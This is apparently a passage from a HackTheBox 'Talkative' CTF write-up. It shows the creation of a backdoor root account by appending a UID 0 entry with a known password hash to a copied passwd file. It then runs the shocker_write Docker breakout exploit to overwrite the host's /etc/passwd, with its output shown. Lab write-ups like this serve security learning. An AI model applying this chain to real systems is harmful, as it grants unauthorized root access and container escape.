 ```shell
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
saul:x:1000:1000:Saul,,,:/home/saul:/bin/bash
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:43:18(HKT)]
└> nano passwd
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:43:27(HKT)]
└> tail passwd 
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
saul:x:1000:1000:Saul,,,:/home/saul:/bin/bash
```

**Append a line that creates a new user with root privilege:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:44:58(HKT)]
└> openssl passwd pwned
$1$wP0CIs/a$aUfbpJGnlYxt4wlvcPups0
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:45:35(HKT)]
└> echo 'pwned:$1$wP0CIs/a$aUfbpJGnlYxt4wlvcPups0:0:0:pwned:/root:/bin/bash' >> passwd 
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:45:40(HKT)]
└> tail -n 2 passwd 
saul:x:1000:1000:Saul,,,:/home/saul:/bin/bash
pwned:$1$wP0CIs/a$aUfbpJGnlYxt4wlvcPups0:0:0:pwned:/root:/bin/bash
```

**Transfer the `shocker_write` exploit binary and the modified `passwd` file, then run the exploit:**
```shell
/tmp/shocker_write_static /etc/passwd /tmp/passwd
[***] docker VMM-container breakout Po(C) 2014 [***]
[***] The tea from the 90's kicks your sekurity again. [***]
[***] If you have pending sec consulting, I'll happily [***]
[***] forward to my friends who drink secury-tea too! [***]

<enter>

[*] Resolving 'etc/passwd'
[...]
[*] Found passwd
[+] Match: passwd ino=394935
[*] Brute forcing remaining 32bit. This can take a while...
[*] (passwd) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0xb7, 0x06, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0xb7, 0x06, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
```
